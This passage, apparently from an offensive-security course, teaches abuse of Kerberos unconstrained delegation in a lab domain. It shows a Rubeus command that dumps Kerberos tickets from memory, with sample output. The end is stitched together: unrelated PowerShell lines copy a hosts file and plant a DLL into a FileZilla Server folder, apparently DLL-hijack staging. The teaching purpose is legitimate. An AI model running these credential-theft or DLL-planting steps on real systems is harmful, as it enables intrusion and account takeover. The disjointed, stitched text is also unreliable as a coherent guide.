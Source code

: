 > Listing 1 - Enumerating computers with TRUSTED_FOR_DELEGATION set

We have two computers in the domain configured with unconstrained delegation: _FILES01_ and _DC01_. Domain controllers are configured with unconstrained delegation by default, so _FILES01_ will be our primary target in this case.

Service accounts can also be configured with unconstrained delegation if the application executes in the context of the service account rather than the machine account

To abuse unconstrained delegation, we must first compromise the computer or service account in question.

At this stage, we must either perform lateral movement onto _FILES01_ or compromise a vulnerable application on that machine. For purposes of demonstration, we'll simply log in to _FILES01_ as the _adam_ user instead, which is also a local administrator on the target system.

When unconstrained delegation is operating normally, the service account hosting the application can freely make use of the forwarded tickets it receives from users. This means if we compromise the service account as part of an attack, we can exploit unconstrained delegation without needing administrative privileges because we already have access to all affected tickets.

In our example, we logged in to _FILES01_ as the _adam_ user as part of our attack simulation. We'll use the administrative privileges to extract any TGTs supplied by users.

To extract the tickets from memory, we'll use _Rubeus_.[4](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5525-4) Rubeus is a C# toolset for Kerberos that offers many of the same features as _Mimikatz_.[5](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5525-5) However, it does not require us to write the tickets to disk in order to reuse them. Rubeus also supports monitoring, which allows us to capture specific tickets depending on our attack scenario.

We'll launch Rubeus from within the **C:\Tools** directory on _FILES01_ using an administrative PowerShell prompt. In this case, we'll use the **Rubeus.exe dump /nowrap** command to dump the current tickets stored in memory. The **/nowrap** is not mandatory, but it makes it easier to copy the content of the ticket for later reuse as they will not be line wrapped.

```
PS C:\Tools> .\Rubeus.exe dump /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3


Action: Dump Kerberos Ticket Data (All Users)

[*] Current LUID    : 0x14a655

  UserName                 : adam
  Domain                   : CORP
  LogonId                  : 0x14a655
  UserSID                  : S-1-5-21-3515682028-2106700410-3524882512-1606
  AuthenticationPackage    : Kerberos
  LogonType                : RemoteInteractive
  LogonTime                : 5/12/2023 3:28:43 AM
  LogonServer              : DC01
  LogonServerDNSDomain     : CORP.COM
  UserPrincipalName        : adam@corp.com


    ServiceName              :  krbtgt/CORP.COM
    ServiceRealm             :  CORP.COM
```

[files02]: PS>
[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"